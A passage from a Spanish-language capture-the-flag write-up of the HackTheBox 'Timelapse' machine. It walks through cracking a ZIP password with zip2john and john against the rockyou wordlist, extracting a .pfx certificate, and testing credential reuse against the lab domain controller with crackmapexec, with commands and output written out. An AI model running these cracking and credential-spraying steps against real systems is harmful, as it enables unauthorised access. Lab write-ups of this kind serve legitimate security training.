* [Romper contraseña de un archivo ZIP](https://www.reydes.com/d/?q=Romper_la_Contrasena_de_un_Archivo_ZIP_utilizando_John_The_Ripper).

Ejecutamos `zip2john` pasándole el archivo:

```bash
❱ zip2john winrm_backup.zip
```

Nos genera un **hash** gigante, guardémoslo en un archivo:

```bash
❱ zip2john winrm_backup.zip > winrm_backup.hash
```

Ya con el archivo lo siguiente es hacer lo que ya dijimos, usar [john](https://www.openwall.com/john/) para romper ese hash (si es que la contraseña está en el wordlist que le pasemos, ya que lo que hace es ir probando cada palabra contra el hash y si alguna hace *match* significa que es la contraseña) y por consiguiente obtener la password en texto plano:

```bash
❱ john -w:/usr/share/wordlists/rockyou.txt winrm_backup.hash 
```

* `-w`: Tiene el wordlist (lista de posibles contraseñas).

Obtenemos:

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
...
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
...
Session completed
```

EEEEEJEEEEEPAAA! Nos devuelve una cadena de texto que ha hecho **match**: `supremelegacy`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/timelapse/452bash_unzip_ZIPfile_correctPW.png" style="width: 100%;"/>

Liiistos, nos extrajo el archivo `.pfx`:

```bash
❱ file legacyy_dev_auth.pfx 
legacyy_dev_auth.pfx: data
```

Del nombre podemos pensar varias cosas:

* `legacyy` o `legacyy_dev` puede ser un usuario del sistema.

  <span style="color: red;">(</span>Podríamos hacer reutilización de credenciales a ver si no solo son válidas para `openssl` si no por ejemplo para `crackmapexec` (SMB y WinRM) y `kerbrute` (Kerberos).

  ```bash
  #              smb o winrm
  ❱ crackmapexec smb 10.10.11.152 -u 'legacyy' -p 'thuglegacy'
  SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
  SMB         10.10.11.152    445    DC01             [-] timelapse.htb\legacyy:thuglegacy STATUS_LOGON_FAILURE
  ```
